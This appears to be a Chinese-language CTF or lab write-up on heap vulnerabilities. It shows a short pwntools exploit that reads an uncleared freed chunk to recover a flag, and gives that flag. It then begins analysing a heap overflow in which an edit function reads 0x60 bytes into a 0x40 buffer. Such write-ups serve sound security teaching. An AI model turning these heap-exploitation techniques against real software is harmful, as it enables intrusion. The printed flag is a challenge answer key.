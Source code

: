 

##  堆上常见漏洞 

### 1. uninit

首先，分析代码，可以看到在这里分配了 flag 的大小为 0x40 的堆块后 free 并没有清除。

![image-20241203151523120](https://bu.dusays.com/2024/12/03/674eb0133dd28.png)

通过 pwndbg 可以看到，程序刚开始的堆情况如图，我们只需要读出这个 Free chunk

![image-20241203151842698](https://bu.dusays.com/2024/12/03/674eb0dac5e4d.png)

因此本题 exp如下：

```python
# 省略上方与 test.py 中相同的函数
p.recv()
p.sendline(b"3220103544")
handle_add(b"A", b"A", b"A", b"A")
handle_show(0, b"A")
```

flag：flag{hE4P_cAN_be_DIR7y_4s_5T4CK}

![image-20241203152443244](https://bu.dusays.com/2024/12/03/674eb2436b81b.png)



### 2.overflow

首先检查 libc 和 ld 是否连接正确：

![image-20241203153354556](https://bu.dusays.com/2024/12/03/674eb46a8c642.png)

观察代码：user add 中指定 intro 的 size 为 0x40, 而 user edit 中可以修改 0x60 大小，因此可以利用这个漏洞。

```c
// user add
	printf("introduction > ");
    read(0, intro, 0x40);
    info->intro = intro;
    printf("motto > ");
    read(0, info->motto, 0x18);

// ......

// user edit
	printf("new name > ");
    read(0, info->name, 0x20);
    printf("new introduction > ");
    read(0, info->intro, 0x60);
    printf("new motto > ");
    read(0, info->motto, 0x18);
    infos[index] = info;
```
